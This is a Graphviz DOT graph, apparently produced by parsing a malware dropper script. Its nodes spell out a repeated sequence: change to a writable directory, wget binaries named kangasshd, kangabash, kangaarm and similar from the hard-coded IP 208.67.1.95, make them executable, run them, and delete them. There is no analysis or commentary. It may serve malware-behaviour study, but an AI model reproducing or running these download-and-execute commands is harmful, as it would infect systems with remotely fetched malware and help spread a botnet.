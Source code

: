 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://208.67.1.95/kangantpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x kangantpd "];
12 -> 14 [label=";,"];
14 [label="./kangantpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf kangantpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://208.67.1.95/kangasshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x kangasshd "];
30 -> 32 [label=";,"];
32 [label="./kangasshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf kangasshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://208.67.1.95/kangaopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x kangaopenssh "];
48 -> 50 [label=";,"];
50 [label="./kangaopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf kangaopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://208.67.1.95/kangabash "];
64 -> 66 [label=";,"];
66 [label="chmod +x kangabash "];
66 -> 68 [label=";,"];
68 [label="./kangabash "];
68 -> 70 [label=";,"];
70 [label="rm -rf kangabash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://208.67.1.95/kangaftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x kangaftp "];
138 -> 140 [label=";,"];
140 [label="./kangaftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf kangaftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://208.67.1.95/kangawget "];
100 -> 102 [label=";,"];
102 [label="chmod +x kangawget "];
102 -> 104 [label=";,"];
104 [label="./kangawget "];
104 -> 106 [label=";,"];
106 [label="rm -rf kangawget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://208.67.1.95/kangacron "];
118 -> 120 [label=";,"];
120 [label="chmod +x kangacron "];
120 -> 122 [label=";,"];
122 [label="./kangacron "];
122 -> 124 [label=";,"];
124 [label="rm -rf kangacron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://208.67.1.95/kangaftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x kangaftp "];
138 -> 140 [label=";,"];
140 [label="./kangaftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf kangaftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://208.67.1.95/kangapftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x kangapftp "];
156 -> 158 [label=";,"];
158 [label="./kangapftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf kangapftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://208.67.1.95/kangash "];
172 -> 174 [label=";,"];
174 [label="chmod +x kangash "];
174 -> 176 [label=";,"];
176 [label="./kangash "];
176 -> 178 [label=";,"];
178 [label="rm -rf kangash "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://208.67.1.95/kangaarm "];
190 -> 192 [label=";,"];
192 [label="chmod +x kangaarm "];
192 -> 194 [label=";,"];
194 [label="./kangaarm "];
194 -> 196 [label=";,"];
196 [label="rm -rf kangaarm "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://208.67.1.95/kanga "];
208 -> 210 [label=";,"];
210 [label="chmod +x kanga "];
210 -> 212 [label=";,"];
212 [label="./kanga "];
212 -> 214 [label=";,"];
214 [label="rm -rf kanga "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://208.67.1.95/kangatelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x kangatelnetd "];
228 -> 230 [label=";,"];
230 [label="./kangatelnetd "];
230 -> 231 [label=";,"];
}
